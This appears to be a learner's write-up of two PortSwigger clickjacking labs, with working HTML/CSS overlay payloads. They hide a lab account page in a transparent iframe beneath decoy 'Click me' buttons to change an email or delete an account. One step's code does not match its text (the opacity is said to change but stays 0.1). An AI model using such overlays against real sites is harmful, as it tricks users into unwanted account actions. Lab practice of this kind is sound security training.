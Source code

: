 
### Lab: [Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)



```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a6300da03f5cd56c1068024003400fe.web-security-academy.net/my-account?email=abc@hehe.com"></iframe>
```

![](../../Img_note/Pasted%20image%2020221215184000.png)

Change  opacity to 0.001 and `Test me` to `Click me`
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a6300da03f5cd56c1068024003400fe.web-security-academy.net/my-account?email=abc@hehe.com"></iframe>
```
![](../../Img_note/Pasted%20image%2020221215184509.png)



### Lab: [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)


	Description: This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
	You can log in to the account yourself using the following credentials: `wiener:peter`


**Step 1**:  Open the web application and observe function delete account
When i'm trying to delete account, the application will ask again if you want to delete the acccount
![](../../Img_note/Pasted%20image%2020221215184650.png)

![](../../Img_note/Pasted%20image%2020221215184705.png)

**Step 2**: Locate to clickjacking
We need to make clickjacking with 2 click, one click at button ==Delete account==, one click at button ==Yes== after click ==Delete account

We use iframe to embed the vuln web aplication to malicious web. Create two button is ==Click me first== and ==Click me second== according to the given request. Set the opacity to 0.1 so we can easily align the position of the button.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:300px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a900027038c73a0c009bd8e00f000c7.web-security-academy.net/my-account"></iframe>
```

Add the above code to the exploit server, click ==Store==, ==View Exploit== to see the result

![](../../Img_note/Pasted%20image%2020221215185820.png)

**Step 3**:  Align the position of the button

I will fix value:
heigth: 550px, 
top of firstClick to 500px,
opacity to 0.001

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 550px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:300px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a900027038c73a0c009bd8e00f000c7.web-security-academy.net/my-account"></iframe>
```

Click ==Store== to change the script, ==View Exploit== to check again, if everything looks ok, click ==Deliver to victim== and we will get this result

![](../../Img_note/Pasted%20image%2020221215190436.png)


